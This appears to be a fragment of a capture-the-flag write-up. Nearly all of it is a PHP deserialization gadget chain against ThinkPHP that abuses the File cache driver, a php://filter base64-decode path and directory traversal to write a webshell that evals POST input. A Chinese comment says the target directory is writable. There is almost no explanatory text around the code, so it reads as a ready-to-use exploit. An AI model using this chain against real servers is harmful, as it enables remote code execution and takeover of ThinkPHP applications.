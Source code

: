 ```php=

```


/var/www/html/protect.py

```python=
....
```


```php=
<?php
namespace think\cache\driver;

class File {
    protected $options = [];
    protected $tag;
    public function __construct() {
	$this->tag = 'cjbtest';
	$this->options = [
	    'cache_subdir'  => false,
	    'prefix'        => '',
		'path' => 'php://filter/write=convert.base64-decode/resource=../../../../../../../../../../../../../../../../tmp/PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+', // 因为 static 目录有写权限
	    'data_compress' => false
	];
    }
}

namespace think\session\driver;
use think\cache\driver\File;

class Memcached {
    protected $handler;
    function __construct() {
	$this->handler=new File();
    }
}

namespace think\console;
use think\session\driver\Memcached;

class Output {
    protected $styles = [];
    private $handle;
    function __construct() {
	$this->styles = ["getAttr", 'info',
			 'error',
			 'comment',
			 'question',
			 'highlight',
			 'warning'];
	$this->handle = new Memcached();
    }
}

namespace think\db;
use think\console\Output;

class Query {
    protected $model;
    function __construct() {
	$this->model = new Output();
    }
}
```